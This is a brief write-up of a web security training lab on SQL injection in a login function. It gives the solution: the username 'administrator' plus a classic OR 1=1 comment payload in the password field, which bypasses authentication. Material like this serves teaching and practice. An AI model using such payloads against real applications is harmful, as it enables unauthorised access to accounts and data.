

# Lab: SQL injection vulnerability allowing login bypass

## Task

This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.

## Solution

```bash
login: administrator
password:' OR 1=1-- 
```

## Image



